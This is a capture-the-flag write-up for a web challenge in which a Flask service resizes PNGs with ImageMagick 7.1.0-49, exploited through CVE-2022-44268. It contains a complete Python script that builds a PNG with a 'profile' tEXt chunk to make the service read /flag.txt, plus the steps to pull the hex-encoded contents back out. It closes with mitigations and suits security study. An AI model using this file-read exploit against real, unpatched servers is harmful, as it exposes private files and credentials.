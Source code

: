 # Resizr CTF Challenge Writeup

## Challenge Overview

- **Name**: Resizr
- **Category**: Web
- **Description**: "It's like magick!"
- **Attached**: [`resizr.zip`](./Files/resizr.zip)

## Initial Analysis

The challenge provides a Dockerfile and Flask application that:

1. Installs ImageMagick 7.1.0-49
1. Provides an endpoint to upload PNG images
1. Uses ImageMagick to resize uploaded images to 50%
1. Returns the processed image

Key files from the challenge:

- `flag.txt` is stored in `/flag.txt`
- The application uses `subprocess.run(["magick", "-", "-resize", "50%", "png:-"])` to process images

## Vulnerability Identification

The specific ImageMagick version (7.1.0-49) is vulnerable to **CVE-2022-44268** - an information disclosure vulnerability that allows reading arbitrary files through PNG metadata manipulation.

## Exploitation Strategy

The vulnerability works by:

1. Crafting a malicious PNG with a `tEXt` chunk containing `profile` keyword
1. Setting the profile value to the target file path (`/flag.txt`)
1. When ImageMagick processes this PNG, it reads the specified file
1. The file content gets embedded in the output PNG's metadata as hex-encoded data

## Solution Implementation

### Step 1: Create Malicious PNG

```python
#!/usr/bin/env python3
import struct
import zlib

def create_malicious_png(target_file="/flag.txt"):
    """
    Create a malicious PNG that exploits CVE-2022-44268
    to read arbitrary files via ImageMagick
    """
    
    # PNG signature
    png_signature = b'\x89PNG\r\n\x1a\n'
    
    # IHDR chunk (image header) - 1x1 pixel RGB image
    width = 1
    height = 1
    bit_depth = 8
    color_type = 2  # RGB
    compression = 0
    filter_method = 0
    interlace = 0
    
    ihdr_data = struct.pack('>IIBBBBB', width, height, bit_depth, color_type, 
                           compression, filter_method, interlace)
    ihdr_crc = zlib.crc32(b'IHDR' + ihdr_data) & 0xffffffff
    ihdr_chunk = struct.pack('>I', len(ihdr_data)) + b'IHDR' \
			+ ihdr_data + struct.pack('>I', ihdr_crc)
    
    # tEXt chunk with profile keyword pointing to target file
    # This is the key to the exploit - ImageMagick will try to read this as a file path
    txt_keyword = b'profile'
    txt_content = target_file.encode('ascii')
    txt_data = txt_keyword + b'\x00' + txt_content
    txt_crc = zlib.crc32(b'tEXt' + txt_data) & 0xffffffff
    txt_chunk = struct.pack('>I', len(txt_data)) + b'tEXt' \
			+ txt_data + struct.pack('>I', txt_crc)
    
    # IDAT chunk (image data) - minimal data for 1x1 RGB pixel
    # Raw image data: one white pixel (RGB: 255,255,255)
    raw_data = b'\x00\xff\xff\xff'  # Filter byte + RGB values
    compressed_data = zlib.compress(raw_data)
    idat_crc = zlib.crc32(b'IDAT' + compressed_data) & 0xffffffff
    idat_chunk = struct.pack('>I', len(compressed_data)) + b'IDAT' \
			+ compressed_data + struct.pack('>I', idat_crc)
    
    # IEND chunk (end of image)
    iend_crc = zlib.crc32(b'IEND') & 0xffffffff
    iend_chunk = struct.pack('>I', 0) + b'IEND' + struct.pack('>I', iend_crc)
    
    # Combine all chunks
    png_data = png_signature + ihdr_chunk + txt_chunk + idat_chunk + iend_chunk
    
    return png_data

# Generate the exploit
malicious_png = create_malicious_png("/flag.txt")
with open('exploit.png', 'wb') as f:
    f.write(malicious_png)
```

### Step 2: Upload and Process

1. Upload `exploit.png` to the `/upload` endpoint
1. Download the returned processed image (`out.png`)

### Step 3: Extract Flag from Metadata

```bash
strings out.png
```

Output shows:

```
HtEXtRaw profile type txt
      18
5356555343477b743373745f666c34677d0a
```

### Step 4: Decode Hex Data

The hex string `5356555343477b743373745f666c34677d0a` contains our flag:

```python
>>> bytes.fromhex('5356555343477b743373745f666c34677d0a')
b'SVUSCG{t3st_fl4g}\n'
```

## Flag

**SVUSCG{t3st_fl4g}**

## Key Learnings

1. **Version-specific vulnerabilities**: Specific ImageMagick versions have known CVEs
1. **PNG structure**: Understanding PNG chunk format is crucial for crafting valid exploits
1. **Metadata extraction**: File content gets embedded as hex-encoded metadata in processed images
1. **CVE-2022-44268**: This vulnerability allows arbitrary file reads through PNG profile manipulation

## Mitigation

- Update ImageMagick to a patched version
- Implement input validation and sanitization
- Use security policies to restrict ImageMagick's file system access
- Consider using safer image processing alternatives for user uploads
